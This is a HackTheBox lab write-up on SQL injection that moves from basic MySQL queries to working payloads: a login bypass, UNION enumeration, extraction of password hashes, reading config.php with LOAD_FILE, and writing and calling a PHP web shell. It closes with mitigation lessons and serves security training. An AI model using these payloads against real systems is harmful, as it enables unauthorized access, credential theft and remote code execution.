 # HTB-Writeup-SQLInjection
HackTheBox Writeup: SQL Injections - exploitation and mitigation techniques like enumeration, UNION injections, file reading/writing, and RCE for offensive security.

By Ramyar Daneshgar 

SQL injection is a code injection technique that exploits vulnerabilities in a web application's interaction with its database. It occurs when an attacker manipulates user input to execute arbitrary SQL queries, leading to unauthorized access to data, administrative control, or even remote code execution.

**Types of SQL Injection:**
1. **Classic SQL Injection**: Directly retrieves data by injecting SQL queries.
2. **Union-Based SQL Injection**: Combines results from multiple queries using the `UNION` operator.
3. **Error-Based SQL Injection**: Exploits error messages to gain insights into the database structure.
4. **Blind SQL Injection**: No direct feedback; relies on true/false conditions or time delays.
5. **Time-Based Blind SQL Injection**: Leverages functions like `SLEEP()` to infer results.
6. **Out-of-Band SQL Injection**: Exploits secondary communication channels, like DNS requests.


#### **Intro to MySQL**
**Objective**: Identify the first database in the MySQL instance.

1. **Connect to the MySQL Server**:  
   To connect, I used the `mysql` client with the provided credentials. The `-h` specifies the host, `-P` defines the port, and `-u` and `-p` provide the username and password.
   ```bash
   mysql -h STMIP -P STMPO -u root -ppassword
   ```
   **Rationale**: This establishes a connection to the target database server.

2. **List Databases**:  
   Using the `SHOW databases;` query, I enumerated all databases in the server.
   ```sql
   SHOW databases;
   ```
   **Result**: The output displayed databases such as `employees` and `mysql`.

**Key Takeaway**: Always enumerate databases first to identify potential targets.

---

#### **SQL Statements**
**Objective**: Retrieve the department number for the "Development" department.

1. **Switch to the Target Database**:
   I used the `USE` command to switch to the `employees` database.
   ```sql
   USE employees;
   ```

2. **List Tables**:
   To understand the database's structure, I listed all tables.
   ```sql
   SHOW TABLES;
   ```

3. **Understand Table Schema**:
   I inspected the structure of the `departments` table to identify relevant columns.
   ```sql
   DESCRIBE departments;
   ```

4. **Query Specific Data**:
   Using a `SELECT` statement, I filtered the table for rows where `dept_name = "Development"`.
   ```sql
   SELECT dept_no FROM departments WHERE dept_name="Development";
   ```

**Key Takeaway**: Schema inspection is essential for crafting precise queries.

---

#### **Query Results**
**Objective**: Identify the last name of the employee based on specific conditions.

1. **Inspect Table Structure**:
   I used `DESCRIBE employees;` to confirm the presence of relevant columns (`first_name`, `last_name`, and `hire_date`).
   ```sql
   DESCRIBE employees;
   ```

2. **Query with Conditions**:
   I filtered for employees whose first name starts with "Bar" and hire date is `1990-01-01` using the `LIKE` operator and exact match.
   ```sql
   SELECT last_name FROM employees WHERE first_name LIKE 'Bar%' AND hire_date='1990-01-01';
   ```

**Key Takeaway**: Use filtering operators like `LIKE` and `AND` for precision in multi-condition queries.

---

#### **SQL Operators**
**Objective**: Count records where `emp_no > 10000` or title does not include "engineer."

1. **Inspect Table Structure**:
   I analyzed the schema of the `titles` table.
   ```sql
   DESCRIBE titles;
   ```

2. **Count Records with Conditions**:
   Using the `COUNT()` function, I queried the number of rows satisfying either condition.
   ```sql
   SELECT COUNT(*) FROM titles WHERE emp_no > 10000 OR title NOT LIKE '%engineer%';
   ```

**Key Takeaway**: Aggregate functions like `COUNT()` simplify data analysis without fetching full datasets.

---

#### **Subverting Query Logic**
**Objective**: Bypass login authentication.

1. **Inject Malicious Logic**:
   By injecting `' OR '1' = '1' -- -`, I bypassed the authentication mechanism. This payload always evaluates to true.
   ```sql
   tom' OR '1' = '1' -- -
   ```

**Key Takeaway**: Input validation is critical to prevent unauthorized access.

---

#### **Union Injection**
**Objective**: Use a Union injection to extract information.

1. **Determine Number of Columns**:
   I tested queries with varying numbers of columns until finding the correct match (4 columns).
   ```sql
   ' UNION SELECT 1-- -
   ' UNION SELECT 1,2-- -
   ' UNION SELECT 1,2,3,4-- -
   ```

2. **Inject Data Extraction Function**:
   Injecting `user()` into the query retrieved the database user.
   ```sql
   ' UNION SELECT 1,user(),3,4-- -
   ```

**Key Takeaway**: Matching column counts in Union injections is vital for successful exploitation.

---

#### **Database Enumeration**
**Objective**: Find the password hash for `newuser` in the `users` table.

1. **Enumerate Columns**:
   I queried the `INFORMATION_SCHEMA.COLUMNS` table to list column names in the `users` table.
   ```sql
   foo' UNION SELECT 1,TABLE_SCHEMA,TABLE_NAME,COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users'-- -
   ```

2. **Extract Data**:
   I used a Union injection to retrieve the username and password hash.
   ```sql
   foo' UNION SELECT 1,username,password,4 FROM ilfreight.users-- -
   ```

**Key Takeaway**: The `INFORMATION_SCHEMA` database is a critical resource for understanding database structures.

---

#### **Reading Files**
**Objective**: Extract the database password.

1. **Verify File Privileges**:
   I checked if the current user (`root`) had the `FILE` privilege.
   ```sql
   foo' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
   ```

2. **Load Configuration File**:
   Using `LOAD_FILE()`, I read the contents of `config.php` to extract the database password.
   ```sql
   foo' UNION SELECT 1,LOAD_FILE("/var/www/html/config.php"),3,4-- -
   ```

**Key Takeaway**: Misconfigured privileges can expose sensitive files.

---

#### **Writing Files**
**Objective**: Write a web shell for remote code execution.

1. **Check File Write Permissions**:
   I verified that `secure_file_priv` was unset, allowing unrestricted file writes.
   ```sql
   foo' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables WHERE variable_name="secure_file_priv"-- -
   ```

2. **Write the Web Shell**:
   I used `INTO OUTFILE` to write a PHP web shell to the web root directory.
   ```sql
   foo' UNION SELECT "",'<?php system($_REQUEST["cmd"]); ?>', "", "" INTO OUTFILE '/var/www/html/shell.php'-- -
   ```

3. **Execute Commands**:
   Using the shell, I executed commands to retrieve the flag.
   ```shell
   http://STMIP:STMPO/shell.php?cmd=cat%20../flag.txt
   ```

**Key Takeaway**: File write capabilities can escalate an SQL injection vulnerability into a full system compromise.

---

### Lessons Learned
1. **Input Validation**: Never trust user input. Validate all inputs against strict rules, e.g., using regular expressions or input sanitization functions.
   - **Use Parameterized Queries**: Replace dynamic queries with parameterized ones to prevent SQL injection entirely.

2. **Principle of Least Privilege**: Restrict database users to the minimal permissions required for their role. For example:
   - The web application should not have `FILE` or superuser privileges.

3. **Secure Configuration**: Always set `secure_file_priv` to a specific directory or `NULL` to prevent unrestricted file reads/writes.

4. **Error Suppression**: Avoid exposing database error messages to users as they can leak sensitive information about the database structure.

5. **Regular Audits**: Conduct regular code and configuration audits to identify potential vulnerabilities before attackers can exploit them.

